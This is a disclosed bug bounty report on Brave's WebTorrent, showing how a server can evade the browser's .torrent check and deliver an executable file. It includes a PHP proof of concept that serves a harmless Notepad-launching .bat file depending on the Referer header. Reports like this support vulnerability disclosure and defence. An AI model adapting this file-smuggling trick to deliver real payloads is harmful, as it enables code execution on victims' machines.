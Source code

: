 # Arbitrary file download via "Save .torrent file" option can lead to Client RCE and XSS

## Report Details
- **Report ID**: 963155
- **URL**: https://hackerone.com/reports/963155
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-08-20T12:27:41.357Z
- **Disclosed**: 2022-06-30T17:46:56.455Z

## Reporter
- **Username**: d3f4u17
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
## Summary:

An attacker can use the "Save .torrent file" option in WebTorrent to smuggle malicious files onto the client's machine.

## Description

Brave allows users to download the ".torrent"  via WebTorrent. WebTorrent decides whether a file is torrent or not based on the following headers `Content-Disposition` and `Content-Type` an attacker can craft a clever looking server side file to bypass the WebTorrent validation which in turn allows the users to download the malicious file instead of an actual torrent file, this behavior can easily lead to localhost* xss and client side RCE.

I used the following PHP code to bypass the WebTorrent validation.

```php
<?php

if(isset($_SERVER['HTTP_REFERER'])){
    header("Content-Disposition: attachment; filename='PoC.torrent'; filename*=UTF-8''PoC.torrent");
    header("Content-Type: application/octet-stream");
}
else{
    header("Content-Disposition: attachment; filename='PoC.bat'; filename*=UTF-8''PoC.bat");
    header("Content-Type: application/x-bat");
    echo "@echo off\n";
    echo "START C:\Windows\NOTEPAD.EXE";
}
?>

```
In the above code when the `Referer` header is passed along with the request then only the server returns a torrent file response otherwise the server will return a `.bat` file which when executed will open notepad on a Windows Machine.

## Tested on 

 * Brave Version 1.12.114 Chromium: 84.0.4147.135 (Windows)

## Steps To Reproduce:

* Visit https://php-demo-app-shibli.cfapps.io/test-driver.php on your brave webbrowser on Windows OS.
* Click on "click me" link
* Click on "Save .torrent file" option
* Save the file and open it.
* When you will execute the file Notepad will open on our windows machine.

Below is a video POC for the above attack scenario

{F956579}

## Impact

* Remote Code Execution
* Remote JavaScript execution
* Installing malware on client's machine

## Attachments
- bandicam_2020-08-20_17-37-46-525.mp4
